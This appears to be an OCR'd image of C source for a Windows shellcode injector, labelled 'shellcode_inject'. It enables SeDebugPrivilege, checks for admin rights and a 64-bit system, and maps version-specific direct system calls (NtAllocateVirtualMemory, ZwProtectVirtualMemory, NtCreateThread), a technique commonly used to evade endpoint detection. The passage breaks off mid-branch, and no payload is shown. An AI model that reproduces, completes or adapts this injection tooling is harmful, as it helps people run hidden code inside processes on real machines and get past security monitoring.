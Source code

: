 ```c
	TokenPrivileges.Privileges[0].Attributes = TRUE ? SE_PRIVILEGE_ENABLED : 0;

	LPWSTR lpwPriv = L"SeDebugPrivilege";
	if (!LookupPrivilegeValueW(NULL, (LPCWSTR)lpwPriv, &TokenPrivileges.Privileges[0].Luid)) {
		CloseHandle(hToken);
		return FALSE;
	}

	if (!AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
		CloseHandle(hToken);
		return FALSE;
	}

	CloseHandle(hToken);
	return TRUE;
}


int wmain(int argc, wchar_t* argv[]) {

	// 仅支持64位系统
	if (sizeof(LPVOID) != 8) {
		exit(1);
	}
	//判断是否为管理员权限
	if (!IsElevated()) {
		exit(1);
	}

	SetDebugPrivilege();

	PWIN_VER_INFO pWinVerInfo = (PWIN_VER_INFO)calloc(1, sizeof(WIN_VER_INFO));

	// 获取版本信息
	OSVERSIONINFOEXW osInfo;
	LPWSTR lpOSVersion;
	osInfo.dwOSVersionInfoSize = sizeof(osInfo);

	_RtlGetVersion RtlGetVersion = (_RtlGetVersion)
		GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlGetVersion");
	if (RtlGetVersion == NULL) {
		return FALSE;
	}

	wprintf(L"[1] Checking OS version details:\n");
	RtlGetVersion(&osInfo);
	swprintf_s(pWinVerInfo->chOSMajorMinor, _countof(pWinVerInfo->chOSMajorMinor), L"%u.%u", osInfo.dwMajorVersion, osInfo.dwMinorVersion);
	pWinVerInfo->dwBuildNumber = osInfo.dwBuildNumber;

	if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"10.0") == 0) {
		lpOSVersion = L"10 or Server 2016";
		wprintf(L"	[+] Operating System is Windows %ls, build number %d\n", lpOSVersion, pWinVerInfo->dwBuildNumber);
		wprintf(L"	[+] Mapping version specific System calls.\n");
		NtAllocateVirtualMemory = &NtAllocateVirtualMemory10;
		ZwProtectVirtualMemory = &ZwProtectVirtualMemory10;
		NtCreateThread = &NtCreateThread10;
		pWinVerInfo->SystemCall = 0x3F;
	}
	else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.1") == 0 && osInfo.dwBuildNumber == 7601) {
		lpOSVersion = L"7 SP1 or Server 2008 R2";
```

[go/shellcode_inject/virtual>>]: generate